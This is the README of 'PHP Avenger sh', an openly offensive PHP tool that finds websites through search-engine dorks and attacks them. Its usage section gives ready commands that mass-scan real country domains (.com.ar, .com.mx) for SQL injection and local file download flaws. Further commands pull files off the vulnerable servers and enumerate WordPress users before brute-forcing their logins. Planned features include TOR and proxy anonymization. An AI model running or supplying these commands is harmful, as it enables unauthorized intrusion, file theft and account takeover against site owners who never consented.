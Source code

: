 # PHP Avenger

> PHP Avenger is a modern collection of open source tools written in PHP with focus in security and hacking.

### Beta

* PHP Avenger sh ( Search Engine )

### Future Implementation


* PHP Avenger bt ( Brute - Force )
* PHP Avenger sca ( State Code Analayse )
* PHP Avenger pwp ( Plugin WordPress )
* PHP Avenger cj ( Component Joomla )

***
#PHP Avenger SH

> Php Avenger sh is a open source tool with an idea **based in a fork inurlbr by Cleiton Pinheiro**. Basically **PHP Avenger sh** is a tool that automates the process of detecting possible vulnerabilities using mass scan and checking if the vulnerability is true or false. Php Avenger uses search engines like google, bing and others through dorks ( advanced search ).

## Installation 

The recommended way to install PHP Avenger is through
[Composer](http://getcomposer.org).

```bash
# Install Composer
curl -sS https://getcomposer.org/installer | php
```

Next, run the Composer command to install the latest beta version of Php Avenger SH:

```bash
php composer.phar create-project aszone/avenger-sh
cd avenger-sh
```
## Basic Usage

> Use the commands bellow to init the process, results will be printed in the monitor and saved in a `.txt` file on folder `results`.

### Get trash search

```bash
php avenger sh --dork="site:com.ar ext:sql password"
```
#### Result of trash search
![alt tag](http://lenonleite.com.br/wp-content/uploads/2016/06/imagem1.png)


### Check Sql Injection
```bash
php avenger sh --dork="site:com.ar inurl:php?id=" --check="sqli"
```
#### Result of Sql Injection
![alt tag](http://lenonleite.com.br/wp-content/uploads/2016/06/imagem2.png)
![alt tag](http://lenonleite.com.br/wp-content/uploads/2016/06/imagem3.png)


### Check Local File Download
```bash
php avenger sh --dork="site:com.ar inurl:download.php?file=" --check="lfd"
```
#### Result of Local File Download
![alt tag](http://lenonleite.com.br/wp-content/uploads/2016/06/imagem7.png)

### Check and Exploited Local File Download

> This next command you will check vulnerabilities and extract files of server. The files will save in /results/exploits/lfd/
 
```bash
php avenger sh --dork="site:com.mx inurl:download.php?file=" --check="lfd" --exploit="lfd"
```
#### Result of Extract Files 
![alt tag](http://lenonleite.com.br/wp-content/uploads/2016/11/lfdFiles.png)
#### Video of Extract Files 
[![Video of extract files](https://img.youtube.com/vi/IdrpQ7KQlmU/0.jpg)](https://www.youtube.com/watch?v=IdrpQ7KQlmU)

### Check is Admin Page
```bash
php avenger sh --dork="site:com.ar inurl:admin" --check="isAdmin"
```

### Check is Admin Page and if Admin Page for WordPress get all users and start brute force 
```bash
php avenger sh --dork="site:com inurl:wp-content/uploads" --check="isAdmin" --exploit="btwp"
```

### Help for commands
```bash
php avenger sh 
```

## Details

#### Search Engines
* Google
* GoogleApi
* Bing
* DukeDukeGo
* Yahoo
* Yandex

#### Covered Vulnerabilities
* Sql Injection (SQLI)
* Local File Download (LFD)
* Admin Page
* Remote File Inclusion (RFI)
* Cross-Site-Scripting (XSS)

#### Covered Exploits
* Local File Download (LFD)
* Brute Force for WordPress

#### Covered Vulnerabilities in next versions
* Sensitive Files
    * Dump Files
    * Config Files
    * Open Folders

#### Features under development
* Power Search
* Send E-mail with results
* Naming the `.txt` result file
* Proxys
    * TOR
    * Site of Proxys
    * **Virgin Proxys**
    
## Help and docs
* [Documentation](http://phpavenger.aszone.com.br).
* [Examples](http://phpavenger.aszone.com.br/examples).
* [Videos](https://www.youtube.com/user/MrLenonleite).
* [Steakoverflow](http://phpavenger.aszone.com.br).


